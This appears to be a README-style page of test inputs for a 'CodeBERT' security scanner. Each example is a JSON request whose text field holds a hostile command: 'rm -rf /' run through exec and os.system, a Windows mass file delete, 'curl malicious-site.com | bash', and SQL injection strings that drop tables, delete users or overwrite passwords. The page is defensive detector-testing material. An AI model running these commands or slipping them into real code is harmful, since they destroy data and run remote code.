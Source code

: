 # Critical Threat Examples for CodeBERT Scanner

These are examples of malicious code that would be blocked as **Critical** severity by the CodeBERT scanner.

## 🚨 Critical Severity Examples

### 1. **System Command Execution**
```json
{
  "text": "exec('rm -rf /')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple system commands:**
```json
{
  "text": "exec('rm -rf /'); system('curl malicious-site.com | bash'); Process.Start('cmd.exe', '/c del C:\\*.*');",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 2. **Database Injection Attacks**
```json
{
  "text": "'; DROP TABLE users; --",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

**Multiple SQL injection attacks:**
```json
{
  "text": "'; DELETE FROM users WHERE 1=1; --'; UPDATE users SET password='hacked'; --",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```

### 3. **File System Attacks**
```json
{
  "text": "import os; os.system('rm -rf /home/*')",
  "scanners": ["codebert_security"],
  "options": { "threshold": 0.5 }
}
```
